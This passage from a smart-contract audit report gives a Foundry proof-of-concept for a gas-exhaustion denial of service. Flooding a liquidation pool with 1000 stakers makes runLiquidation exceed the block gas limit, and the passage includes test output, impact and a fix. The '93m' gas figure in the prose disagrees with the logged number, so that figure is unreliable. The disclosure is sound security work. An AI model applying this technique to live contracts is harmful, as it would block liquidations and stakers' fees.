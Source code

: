 ```js
        // add collateral and mint euro ;
        (bool ok,) = vault.call{value: 2 ether}("");
        require(ok);
        SmartVaultV3(payable (vault)).mint(bob, 1600 ether);
        // make the price of collateral less to trigger undercollatirlization ;
         clmock.setPrice(1600000000);
        // create a huge number of holders  then skip two day (so the holders will);
        for (uint i;i< 1000;i++) {
            address to = address(uint160(uint(keccak256(abi.encode(i)))));
            tst.mint(to,i * 1 ether + 1);
            vm.startPrank(to);
            tst.approve(address(pool), tst.balanceOf(to));
            pool.increasePosition(tst.balanceOf(to),0);
            vm.stopPrank();
        }
        skip(3 days);
        // catch the gas before : 
        uint gasBefore = gasleft();
        poolmanager.runLiquidation(tokenId);
        uint gasConsumed = gasBefore - gasleft();
        console.log("gas used for runing liquidation with one token and 1000 holders is :",gasConsumed);
        console.log("number of holders ",pool.len());
        // try to run liquidation : 
    }
```
- console after runing test :
```sh
 Running 1 test for test/foundry_tests/setup.t.sol:setup
 [PASS] test_runLiquidation() (gas: 1798591326)
 Logs:
  gas used for runing liquidation with one token and 1000 holders is : 943865157
  number of holders  1000

 Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 5.99s
```
- notice that in this case the gas consumed is 93m , which too much ,and exceed the *block gas limit* for mainnet (for l2 the gas will be calculated differently ,however this can be targeted to make it exceed the block limit of any evm compatible due to large resource consuming )
## impact : 

-  Legitimate stakers are unable to receive their fees, undermining the staking pool's incentive structure.
- all super vaults will be unliquidatable , since the [runLiquidation](https://github.com/Cyfrin/2023-12-the-standard/blob/main/contracts/LiquidationPoolManager.sol#L59) function will always run out of gas.


## Tools Used
vs code 
## Recommendations
- I would recommend to enable liquidation for **smartVaults** separately from Distributing assets to stakers of the in the liquidation pool.
## <a id='H-03'></a>H-03. SmartVaultV3  Mishandling Of Burn Fees            
